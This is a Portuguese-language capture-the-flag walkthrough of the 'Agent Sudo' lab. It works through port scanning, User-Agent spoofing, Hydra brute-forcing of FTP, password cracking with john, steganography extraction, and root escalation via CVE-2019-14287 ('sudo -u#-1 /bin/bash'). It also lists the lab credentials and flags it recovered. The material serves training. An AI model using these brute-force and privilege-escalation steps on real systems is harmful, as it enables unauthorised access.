

# Agent Sudo

## How many open ports?

- Escaneamento das portas
    
    ```bash
    nmap -sV -n 10.10.149.253
    ```
    
    
    
- `3`

## How you redirect yourself to a secret page?

- Na url `10.10.149.253`
    
    
    
- Vamos fazer uma requisição trocando o `User-Agent`
- Basta aperta `f12`, esse `User-Agent` fica na aba de `Network`
    
    
    
- Para fazer uma requisição trocando o `User-Agente` podemos usar tanto no BurpSuite quando no terminal, irei seguir usando no terminal
- Sintaxe usando com wget
    
    ```bash
    wget -U "agent" -L <IP/URL>
    wget --user-agent="agent" -L
    wget --header="User-Agent: agent" -L <IP/URL>
    ```
    
- Sintaxe usando curl
    
    ```bash
    curl -A "agent" -L <IP/URL>
    curl --user-agent "agent" -L <IP/URL>
    curl -H "User-Agent: agent" -L <IP/URL>
    ```
    
- Vou usar o curl
    
    ```bash
    curl -A "A" -L 10.10.149.253
    curl -A "B" -L 10.10.149.253
    curl -A "C" -L 10.10.149.253
    ```
    

## What is the agent name?

- Com o `User-Agent` `C` ele mostrou algo diferente
    
    
    
- Agora que temos um usuario e provavelmente uma senha fraca, vamos fazer um brute force no ftp
    
    ```bash
    hydra -l chris -P rockyou.txt ftp://10.10.149.253
    ```
    
    
    
- ftp user: `chris`
- ftp password: `crystal`

## Zip file password

- Login ftp
    
    ```bash
    ftp 10.10.149.253
    chris
    crystal
    ```
    
- Vamos baixar o conteudo que tem
    
    ```bash
    get To_agentJ.txt
    get cute-alien.jpg
    get cutie.png
    exit
    ```
    
- Vamos separar esse arquivos para outra pasta
    
    ```bash
    mkdir ftpchris
    mv To_agentJ.txt cute-alien.jpg cutie.png ftp
    cd ftpchris
    ```
    
- Vamos ver o conteúdo do txt
    
    ```bash
    cat To_agentJ.txt
    ```
    
- Bom parece que existe algum arquivo dentro de outro aqui
    
    ```bash
    exiftool cutie.png
    exiftool cute-alien.jpg
    strings cutie.png
    ```
    
    
    
- Parece que existe realmente um arquivo dentro de `cutie.png`
- Vamos extrair
    
    ```bash
    binwalk -e cutie.png
    cd _cutie.png.extracted
    ```
    
- Vamos extrair o arquivo `.zip`
    
    ```bash
    7z x 8702.zip
    ```
    
- Precisamos de uma senha, entao vamos usar o `john`
    
    ```bash
    ./john/run/zip2john 8702.zip > resul.txt
    ./john/run/john resul.txt --wordlist=/usr/share/wordlist/rockyou.txt
    ./john/run/john resul.txt --show
    ```
    
    
    
- `alien`

## steg password

- Vamos extrair o arquivo `.zip`
    
    ```bash
    7z x 8702.zip
    yes
    alien
    ```
    
    
    
- `QXJlYTUx`
- Parece estranho esse valor, vamos tentar decriptografar
    - [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
    
    
    
- `Area51`

## Who is the other agent (in full name)? // SSH password

- Agora tentar extrair do outro arquivo
    
    ```bash
    steghide extract -sf cute-alien.jpg
    Area51
    cat message.txt
    ```
    
    - User: `james`
    - Password: `hackerrules!`

## What is the user flag?

- Login ssh
    
    ```bash
    ssh james@10.10.215.225
    yes
    hackerrules~
    cat user_flag.txt
    ```
    
- `b03d975e8c92a7c04146cfa7a5a313c7`

## What is the incident of the photo called?

- Na dica fala isso “Reverse image and Foxnews.”
- Entao vamos fazer a pesquisa reversa dessa foto que esta na pasta
- Vamos baixar ela primeiro
- Pesquisando por “python simple web server”
    
    ```bash
    python3 -m http.server
    ```
    
- Agora vamos no browser ou pelo comando baixar a imagem
    
    ```bash
    wget 10.10.215.225:8000/Alien_autospy.jpg
    ```
    
- Agora pesquisando por “reverse image search”
    - [https://tineye.com/](https://tineye.com/)
    - Agora mandando essa foto para la
    - Entao procurando pelo site da dica “Foxnews”
- **`Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment`**

## (Format: CVE-xxxx-xxxx)

- No terminal que entramos
    
    ```bash
    su james
    hackerrules!
    sudo -l
    ```
    
- Temos o `/bin/bash` para usar, entao vamos pesquisar
    - (ALL, !root) /bin/bash: vulnerable exploit db
    - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- Vamos colocar o valor da CVE para ver se é mesmo
- `CVE-**2019-14287**`

## What is the root flag? // (Bonus) Who is Agent R?

- Lendo a CVE ele da um exemplo de usar esse comando
    - `sudo -u#-1 /bin/bash`
- Vamos usar ela
    
    ```bash
    sudo -u#-1 /bin/bash
    sudo su
    ```
    
- Na pasta `/root`
    
    ```bash
    cat /root/root.txt
    ```
    
- Flag: `b53a02f55b57d4439e3341834d70c062`
- User-Agent-Secret: `DesKel`